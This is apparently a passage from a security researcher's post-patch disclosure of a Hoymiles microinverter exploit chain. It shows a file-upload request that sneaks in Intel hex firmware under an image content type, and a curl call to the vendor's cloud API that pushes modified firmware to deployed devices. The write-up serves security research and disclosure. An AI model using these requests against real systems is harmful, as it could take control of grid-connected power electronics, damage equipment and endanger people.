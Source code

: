 What happens if we try to upload an intel hex file? By modifying the file name within the `multipart/form-data` header with `X.hex` (w/o modifying the `content-type` field) we could upload an Intel hex file:

```
-----------------------------199673629630748465841477186253
Content-Disposition: form-data; name="file"; filename="X.hex"
Content-Type: image/png

:020000040800F2
:10F80000010800000508A05A99730109545F1714F4
[...]
-----------------------------199673629630748465841477186253--
```
Answer:
```json
{"status":"0","message":"success","data":{"url":"https://static.hoymiles.com/cfs/hex/2308/27/xxxxxxxxxxxxxxx.hex","crc":3282,"fileName":"X.hex","filePath":"hex/2308/27/xxxxxxxxxxx.hex","fileSize":802732}}
```

One of my modified update images is still [there](http://fwupdate.hoymiles.com/cfs/hex/2308/26/1462407114327724032.hex). Some 0x55 have been added at the end of the flash:
```
:2041920055555555555555555555555555555555555555555555555555555555555555556D
```

### Update the devices in field with modified firmware

We just need to send the **UPGRADE** commands to the devices via the cloud API (here DTU):
```sh
curl https://neapi.hoymiles.com/pvm-ctl/api/0/dev/command/put -H "content-type: application/json" -X POST -H "Authorization: [TOKEN 1.xxx]" -d '{"action":2,"dev_type":1,"dev_sn":"4111XXXXXXXX","dtu_sn":"4111XXXXXXXX","data":{"upg_patch_id":xxx,"file_uri":"/cfs/hex/xxxx/xx/[name from server].hex","file_name":"[file name].hex","file_crc":9827}}'
```
Answer:
```json
{"status":"0","message":"success","data":"xxxxxxx"}
```

## Post-patch reproduction

Here are some instructions to reproduce part of the exploit chain post-patch. 
Modifications of the firmware update files can be performed, then CRCs and Headers can be re-calculated according the the [image-format](#image-format) section. These modified update files can be installed into the devices according to the following instructions.

> [!WARNING]
> By modifying the firmware of the MI, the control of the power electronics can be changed and this is safety relevant. **Do not connect a device with modified firmware to the grid**. A device with modified firmware can also be overheated / destroyed / bricked (DTU can be bricked too). I do not assume any responsibility for any damage.

### Restrictions
